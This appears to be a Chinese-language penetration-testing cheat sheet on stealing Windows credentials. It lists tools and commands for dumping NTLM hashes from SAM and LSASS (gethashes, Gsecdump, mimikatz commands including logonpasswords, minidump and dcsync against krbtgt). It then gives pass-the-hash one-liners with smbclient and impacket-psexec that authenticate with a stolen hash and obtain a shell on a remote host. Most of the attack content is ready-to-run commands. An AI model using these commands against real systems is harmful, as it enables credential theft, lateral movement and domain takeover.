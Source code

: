 # 提取 NTML hash

## SAM 文件位置
Window 中加密后的 hash 密码存储在 SAM 文件中
windowNT 4.0 sp 3 后 SAM 文件被加密，密码分为两种 LM 和 NTLM，但是由于加密过于薄弱，在 window vista 和 window server 2008 后被默认不启用
2012 server 版本以及之前的版本，可以从内存中读取管理员明文密码，2012 以后需要修改注册表后再可以读取内存
SAM 文件在 c:\Windows\system 32\config\sam



## gethashes 提取NTLM hash
需要管理员权限方可执行读取 hash 操作
`gethashes.exe  $local`


## Gsecdump获取NTLM hash
功能强大，但是已被杀毒软件认为是病毒
`Gsecdump`
-h  显示帮助，-a  获取所有密码信息，-s 从 sam 文件和域控中获取 hash 值，-u 获取当前登录用户的 hash，-w  获取无线密码

  
## 使用 mimikatz 提取 NTML hash
  Mimikatz 原理：
  使用 sekurlsa 模块读取 LSASS 进程的内存，获取用户 hash
  LSASS（Local Security Authority Subsystem）管理用户 hash 以及认证信息
  使用条件：
  开启 SeDebugPrivilege，这个设置可以使我们 debug 不属于我们的进程
  `mimikatz# privilege::debug`      开启SeDebugPrivilege权限
  `mimikatz# token::elevate`    获取system权限token
  `mimikatz# lsadump::sam`    读取SAM中的用户凭证
  `mimikatz# sekurlsa::logonpasswords `     获取当前在线用户的明文密码（需要高权限运行）
  `mimikatz# lsadump::lsa /patch`     获取当前此计算机存在过用户的NTLMHASH
  `mimikatz# lsadump::sam SYSTEM.hiv`    导出所有用户口令 使用Volue Shadow Copy获得SYSTEM、SAM备份
  `mimikatz# sekurlsa::minidump lsass.dmp`   通过内存文件获取口令
  `mimikatz# sekurlsa::logonPasswords full`
  `mimikatz# lsadump::dcsync /domain:rd.adsecurity.org /user:krbtgt`    拉取 rd.adsecurity.org 域中的 KRBTGT 用户帐户的密码数据
  `mimikatz# lsadump::dcsync /domain:lab.adsecurity.org /user:adsdc03$`    拉取 lab.adsecurity.org 域中 ADSDC03 域控制器的计算机帐户的密码数据

 
  
# Pass-the-hash PtH
有些时候破解 hash 时间过于长，所以选择 pass the hash 方法，即登录使用 NTML hash，不使用帐号密码
此外，如果我们在一个目标上发现一个 hash，我们不仅可以使用它来对该目标进行身份验证，还可以对另一个目标进行身份验证，只要第二个目标具有具有相同用户名和密码的帐户。
自 WindowsVista 以来，所有 Windows 版本都默认启用了 UAC 远程限制 1。这会阻止软件或命令在远程系统上使用管理权限运行。


## 使用 NTMLhash 登录远程 smb 服务
`smbclient //192.168.2.200/secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b`


  
## 使用 impacket-psexec工具返回一个[[ReverseShell|反弹 shell]]
`impacket-psexec -hashs 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.2.200`
Psexec 会使用 NTML hash 登录目标文件共享，并且写入 shell，通过设置 windows 服务执行 shell，获得[[ReverseShell|反弹 shell]] 
获取 system 32 权限
或者使用 wpexec 获取目标 administrator 权限

  



https://www.freebuf.com/articles/network/190128.html

https://www.icekam.com/post/wfuzz-web-blasting-and-exhaustive-tools/